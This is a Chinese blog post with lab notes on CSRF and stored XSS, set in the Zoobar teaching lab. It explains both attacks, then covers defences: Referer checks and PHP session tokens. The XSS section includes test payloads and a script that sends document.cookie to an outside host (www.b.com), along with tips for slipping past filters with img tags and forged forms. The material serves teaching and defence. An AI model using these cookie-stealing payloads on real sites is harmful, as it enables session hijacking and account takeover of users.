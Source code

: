 ```yaml
---
title: csrf攻击方式以及防御手段
copyright: true
date: 2018-09-17 14:54:15
categories: csrf
tags:
    - csrf
    - csrf攻击手段
---
```

## CSRF实验原理

CSRF（Cross-Site Request Forgery，跨站点伪造请求）是一种网络攻击方式，该攻击可以在受害者毫不知情的情况下以受害者名义伪造请求发送给受攻击站点，从而在未授权的情况下执行在权限保护之下的操作，具有很大的危害性。具体来讲，可以这样理解CSRF攻击：攻击者盗用了你的身份，以你的名义发送恶意请求，对服务器来说这个请求是完全合法的，但是却完成了攻击者所期望的一个操作，比如以你的名义发送邮件、发消息，盗取你的账号，添加系统管理员，甚至于购买商品、虚拟货币转账等。

## CSRF攻击原理

CSRF攻击原理比较简单，如图1所示。其中Web A为存在CSRF漏洞的网站，WebB为攻击者构建的恶意网站，User C为Web A网站的合法用户。

![CSRF攻击原理](/images/CSRF攻击原理)

1、用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；

2、在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；

3、用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；

4、网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；

5、浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。

## CSRF的防御

### 1)验证HTTP Referer字段

根据HTTP协议，在HTTP头中有一个字段叫Referer，它记录了该HTTP请求的来源地址。在通常情况下，访问一个安全受限页面的请求必须来自于同一个网站。比如某银行的转账是通过用户访问http://bank.test/test?page=10&userID=101&money=10000页面完成，用户必须先登录bank.test，然后通过点击页面上的按钮来触发转账事件。当用户提交请求时，该转账请求的Referer值就会是转账按钮所在页面的URL（本例中，通常是以bank.test域名开头的地址）。而如果攻击者要对银行网站实施CSRF攻击，他只能在自己的网站构造请求，当用户通过攻击者的网站发送请求到银行时，该请求的Referer是指向攻击者的网站。因此，要防御CSRF攻击，银行网站只需要对于每一个转账请求验证其Referer值，如果是以bank. test开头的域名，则说明该请求是来自银行网站自己的请求，是合法的。如果Referer是其他网站的话，就有可能是CSRF攻击，则拒绝该请求。

### 2)在请求中添加token并验证
CSRF攻击之所以能够成功，是因为攻击者可以伪造用户的请求，该请求中所有的用户验证信息都存在于Cookie中，因此攻击者可以在不知道这些验证信息的情况下直接利用用户自己的Cookie来通过安全验证。由此可知，抵御CSRF攻击的关键在于：在请求中放入攻击者所不能伪造的信息，并且该信息不存在于Cookie之中。鉴于此，系统开发者可以在HTTP请求中以参数的形式加入一个随机产生的token，并在服务器端建立一个拦截器来验证这个token，如果请求中没有token或者token内容不正确，则认为可能是CSRF攻击而拒绝该请求。

这种方法要比检查 Referer 要安全一些，token 可以在用户登陆后产生并放于 session 之中，然后在每次请求时把 token 从 session 中拿出，与请求中的 token 进行比对，但这种方法的难点在于如何把 token以参数的形式加入请求。对于 GET请求，token将附在请求地址之后，这样 URL就变成http://url?csrftoken=tokenvalue。而对于 POST请求来说，要在 form的最后加上 <inputtype=”hidden” name=”csrftoken” value=”tokenvalue”/>，这样就把 token以参数的形式加入请求了。但是，在一个网站中，可以接受请求的地方非常多，要对于每一个请求都加上 token 是很麻烦的，并且很容易漏掉，通常使用的方法就是在每次页面加载时，使用 javascript 遍历整个 dom 树，对于 dom 中所有的 a 和 form 标签后加入 token。这样可以解决大部分的请求，但是对于在页面加载之后动态生成的 html 代码，这种方法就没有作用，还需要程序员在编码时手动添加 token。


实验基本思路就是1）启动session；2）在session中产生一个随机数，并且通过MD5或者其他散列函数进行散列；3)将session中生成的值放到表单中。4)在用户提交表单需要修改数据库的时候进行验证，用户提交的token是否和session中保存的token一致，只有一致的情况下，才进行数据库操作。

1）启动session
session_start();


2）在session中产生一个随机数
<?php $_SESSION['csrf']=md5(uniqid(mt_rand(),true)); ?>


3）将session中生成的值放在表单中这个值就是token
<input type=hidden name=token value="<?php echo $_SESSION['csrf']?>">


4）用户提交表单验证提交的token是否和session中保存的值一致

 if($_POST['submission'] && $_SESSION['csrf']==$_POST['token']) 


 XSS又称CSS，全称CrossSiteScript，跨站脚本攻击，是Web程序中常见的漏洞，XSS属于被动式且用于客户端的攻击方式，所以容易被忽略其危害性。其原理是攻击者向有 XSS漏洞的网站中输入(传入)恶意的HTML代码，当其它用户浏览该网站时，这段HTML代码会自动执行，从而达到攻击的目的。如，盗取用户 Cookie、破坏页面结构、重定向到其它网站等。

XSS攻击类似于SQL注入攻击，攻击之前，我们先找到一个存在XSS漏洞的网站。理论上，所有可输入的地方没有对输入数据进行处理的话，都会存在XSS漏洞，漏洞的危害取决于攻击代码的威力。

我们实验中的XSS代码会保存在数据库中，也称为Stored XSS，也即存储式XSS漏洞。由于其攻击代码作为合法的输入已经存储到服务器上的数据库中，其他人在访问该页面的时候，服务器会自动地从数据库中取出该攻击串返回给用户，然后用户的浏览器则会自动执行该段代码，因此，攻击者只需要在自己的页面中写上攻击代码，其他所有访问该页面的人都会受到攻击。


实验步骤：

第一步也即如何找到XSS漏洞。一般而言，如果网站某个用户输入点能够执行alert(1)，弹出一个框，也就证明这是一个XSS漏洞。

为了执行JS，一般而言需要<script>或伪协议javascript:，但是Zoobar网站本身对<script>标签和javascript:都进行了过滤，为降低实验难度，允许本次实验对网站源码进行修改，从而可以执行XSS攻击。

典型的测试代码：

<ahref=javascript:alert(1)>hello</a>

<script>alert（1）</script>

 

实验内容第一步包括steal cookie：

典型攻击代码如：

<script>window.open(“www.b.com?param=”+document.cookie)</script>

此时只需要在www.b.com 写代码保存或者打印document.cookie值即可。

譬如 php代码的echo $_GET[‘param’]；或者创建一个文件，将cookie的值保存下来。

 

因为window本身也是重点过滤对象，所以可以考虑借助于img或a这种白名单上的标签。

<img>会自动向src网站发出请求，但是为了获得document.cookie的值而不是作为字符串将它发送出去，必须要在JS中使用img

所以常见的做法是使用 document.write，自己写出来一个<img>标签,然后把document.cookie的值作为参数附在链接之后。

 

从这里可以看出，使用JS可以实现HTML，从而也为接下来的攻击提供了思路。

Javascript提供createElement()和appendchild()函数，它可以创建元素并将新创建的元素附在document对象中。因此，只要存在XSS漏洞可以执行JS代码，攻击者可以创建Form表单以及Form表单中的每一项input或textarea，也即可以模拟transfer zoobar和更改profile的动作，这样，所有访问攻击者页面的用户都会被攻击。

XSS的防御：

输入过滤，标签转换，HttpOnly防止偷cookie